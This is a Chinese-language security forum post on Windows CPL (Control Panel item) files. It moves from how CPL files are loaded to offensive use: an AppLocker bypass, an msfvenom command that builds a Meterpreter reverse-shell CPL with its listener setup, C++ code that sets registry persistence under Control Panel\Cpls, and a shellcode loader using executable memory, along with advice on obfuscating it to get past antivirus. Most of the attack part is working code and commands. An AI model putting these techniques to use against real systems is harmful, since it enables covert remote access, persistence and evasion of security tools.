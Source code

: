 前言
--

最近无意间发现了cpl文件,之前对该类型的文件了解几乎为零,由于触及到我的知识盲区,于是决定探究。

cpl文件
-----

CPL文件，是Windows控制面板扩展项，CPL全拼为`Control Panel Item`  
在system32目录下有一系列的cpl文件,分别对应着各种控制面板的子选项  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-20be0f30a7a196425943caefc02a2c41821fb844.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-20be0f30a7a196425943caefc02a2c41821fb844.png)

列入我们`win+R`输入`main.cpl`  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-ade36a57c41a039a195f4361ca4bb0bf9ee28849.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-ade36a57c41a039a195f4361ca4bb0bf9ee28849.png)

将会打开控制面板中的鼠标属性  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-0ef678ce3e51853390aa575179232e28fbdfca68.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-0ef678ce3e51853390aa575179232e28fbdfca68.png)

cpl文件本质是属于PE文件  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-1b45da1715fc3a32bf16b38702db937560b33ed5.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-1b45da1715fc3a32bf16b38702db937560b33ed5.png)

但cpl并不像exe,更像是dll,无法直接打开,只能以加载的形式运行。  
并且有一个导出函数`CPlApplet`  
该函数是控制面板应用程序的入口点，它被控制面板管理程序自动调用，且是个回调函数。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-181ac96ed880274877032e38a44c912d6f510042.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-181ac96ed880274877032e38a44c912d6f510042.png)

如何打开cpl
-------

1.双击或者win+r xxx.cpl  
2.control &lt;文件名&gt;  
3.rundll32 shell32.dll,Control\_RunDLL &lt;文件名&gt;  
注意：所有rundll32 shell32.dll,Control\_RunDLL的命令均可用control替代，control.exe实质调用了rundll32.exe。打开后找不到control.exe进程，只能找到rundll32.exe。

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-a7a4e1ba52f3677f12fe8c668ffa9d070cd600af.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-a7a4e1ba52f3677f12fe8c668ffa9d070cd600af.png)

4.vbs脚本

```vbs
Dim obj
Set obj = CreateObject("Shell.Application")
obj.ControlPanelItem("C:\Users\11793\Desktop\cpl.cpl")
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-5d039f0bb77623816cb94b351474028f34c8262a.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-5d039f0bb77623816cb94b351474028f34c8262a.png)

5.js脚本

```javascript
var a = new ActiveXObject("Shell.Application");
a.ControlPanelItem("C:\\Users\\11793\\Desktop\\cpl.cpl");
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-5773bf2015dae378df990802f1d297397e566568.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-5773bf2015dae378df990802f1d297397e566568.png)

如何自己制造一个cpl文件
-------------

最简单的方式:直接创建一个dll,无需导出函数,然后改后缀名

```c++
BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        WinExec("Calc.exe", SW_SHOW);
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

随便一种方式执行  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-a22fa4542341d6c274e0676d2d556893570a627d.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-a22fa4542341d6c274e0676d2d556893570a627d.png)

这里既然可以弹出calc.exe,那么能不能执行自己的payload的呢,答案是肯定的。

cpl文件的应用
--------

### bypass Windows AppLocker

什么是`Windows AppLocker`:  
AppLocker即“应用程序控制策略”，是Windows 7系统中新增加的一项安全功能。在win7以上的系统中默认都集成了该功能。

默认的Applocker规则集合,可以看到cpl并不在默认规则中:  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-9c660af9de7e97aba3eb1e94e1fd45cc12a79cdf.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-9c660af9de7e97aba3eb1e94e1fd45cc12a79cdf.png)

开启Applocker规则:  
打开计算机管理,选择服务,将`Application Identity`服务开启  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-af2c25a242c89a0136f46d7fa8696582ccc8aacb.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-af2c25a242c89a0136f46d7fa8696582ccc8aacb.png)

然后在安全策略中,添加一条applocker规则,会询问是否添加默认规则  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-77c741bf5935e30ce958c0d9d7e8cd939cb6edac.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-77c741bf5935e30ce958c0d9d7e8cd939cb6edac.png)

默认规则为:  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-552eff92f1f8cc8da10ed41565b47aaa7d8e2555.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-552eff92f1f8cc8da10ed41565b47aaa7d8e2555.png)

假设设置某一路径无法执行可执行程序,再次运行时就会提示组策略安全,不允许运行  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-b46009011f48b1844c222cbdbea62bec74d02dad.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-b46009011f48b1844c222cbdbea62bec74d02dad.png)

绕过的方式有很多,这里只讲cpl文件  
完全可以把代码写入到cpl文件中,同样达到执行目的,这里就弹一个cmd  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-a6de116082face145b4c6148b2ee665fd7365991.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-a6de116082face145b4c6148b2ee665fd7365991.png)

### msf直接生成cpl文件

生成cpl文件  
`msfvenom -p windows/meterpreter/reverse_tcp -b '\x00\xff' lhost=192.168.111.128 lport=8877 -f dll -o cpl.cpl`  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-8606afda64abebfe2a2524f2ab193e10622046d1.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-8606afda64abebfe2a2524f2ab193e10622046d1.png)

将文件拖到本地并运行,msf监听

- use exploit/multi/handler
- set payload windows/meterpreter/reverse\_tcp
- set lhost 192.168.111.128
- set lport 8877
- exploit

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-9da2b350c1e60c3977d952330320361b84eaef2a.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-9da2b350c1e60c3977d952330320361b84eaef2a.png)  
这样肯定是不够的,可以把这个cpl文件当作一个后门,做到一个权限维持的效果,且比较隐蔽。  
将cpl文件名称改为`test.cpl`  
创建一个项目,作用为修改注册表:

```c++
HKEY hKey;
DWORD dwDisposition;
char path[] = "C:\\test.cpl";
RegCreateKeyExA(HKEY_CURRENT_USER,"Software\\Microsoft\\Windows\\CurrentVersion\\Control Panel\\Cpls", 0, NULL, 0, KEY_WRITE, NULL, &hKey, &dwDisposition);
RegSetValueExA(hKey, "test.cpl", 0, REG_SZ, (BYTE*)path, (1 + ::lstrlenA(path)));
```

不一定将cpl文件放到c盘更目录,可以自定义路径  
执行后  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-0d5385a7b9c0f024fdae6111c5ebb2bf363b0c2a.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-0d5385a7b9c0f024fdae6111c5ebb2bf363b0c2a.png)  
然后这里在开启control.exe时,test.cpl文件也会被打开。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-b6a542c7867a227c4c0da708c575190cf19826e4.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-b6a542c7867a227c4c0da708c575190cf19826e4.png)

如果目标主机有杀软,可以通过该方法白加黑绕过,但是msf的cpl文件特征非常明显,静态太概率都会被杀掉。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-9250d6e8bcd73708c91b983a81497ba6523a0312.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-9250d6e8bcd73708c91b983a81497ba6523a0312.png)  
除了加壳之外,寄希望于自己实现加载shellcode,方便做混淆。

### 使用shellcode自己做一个cpl文件

直接上代码

```c++
#include "pch.h"
#include "windows.h"

extern "C" __declspec(dllexport) VOID CPlApplet(HWND hwndCPl, UINT msg, LPARAM lParam1, LPARAM lParam2)
{
    MessageBoxA(0, NULL, "test", MB_OK);
    /* length: 835 bytes */
    unsigned char buf[] = "shellcode";
    LPVOID Memory = VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    memcpy(Memory, buf, sizeof(buf));
    ((void(*)())Memory)();
}
BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

这是最最最最基础的loader  
先打开`control.exe`看看效果  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-59df54101aa229049c02a61da5310e0e8ddde4d2.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-59df54101aa229049c02a61da5310e0e8ddde4d2.png)

看看查杀率

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-0726dbf02dfedea73d40d2615e0736efef838075.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-0726dbf02dfedea73d40d2615e0736efef838075.png)  
这里上传的文本,shellcode没有做任何的处理,查杀率已经算比较低的,如果混淆一下,很轻松的就可以静态过杀软,再用白加黑,是不是想想就很轻松呢。

经过一系列处理后,找杀毒能力还比较强的360试一下  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-e30d66ea8a8d7789076adb8a0a247c04613e4d86.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-e30d66ea8a8d7789076adb8a0a247c04613e4d86.png)

参考
--

<https://wooyun.js.org/drops/CPL%E6%96%87%E4%BB%B6%E5%88%A9%E7%94%A8%E4%BB%8B%E7%BB%8D.html>

<https://attack.mitre.org/techniques/T1218/002/>

<https://docs.microsoft.com/zh-cn/windows/security/threat-protection/windows-defender-application-control/applocker/working-with-applocker-rules>